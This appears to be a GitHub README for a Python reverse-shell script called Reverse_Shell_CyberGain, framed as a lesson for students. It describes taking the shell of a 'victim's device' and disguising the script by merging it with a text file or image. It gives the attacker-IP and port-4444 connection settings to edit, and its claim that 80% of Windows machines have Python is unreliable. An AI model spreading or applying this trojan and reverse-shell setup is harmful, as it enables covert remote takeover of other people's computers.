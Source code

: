 # Reverse_Shell_CyberGain
Today we have a special script for CyberGain students. Students will learn how to do some cyber attacks that include taking the shell of the victim's device and merging a .txt file or a merged image with this file.

Be sure that Python is present on the victim's machine. 80% of Windows machines have Python installed.
Also, before you do the trick that we will use, change the IP that the script will connect to, in line 8 you can open the file with .txt or in kali linxu by using nano Reverse_Shell_CyberGain.py

HOST = '<Attacker IP ADDRESS>' #Attacker_Machine_IP
PORT = 4444 #Port Listner Attacker

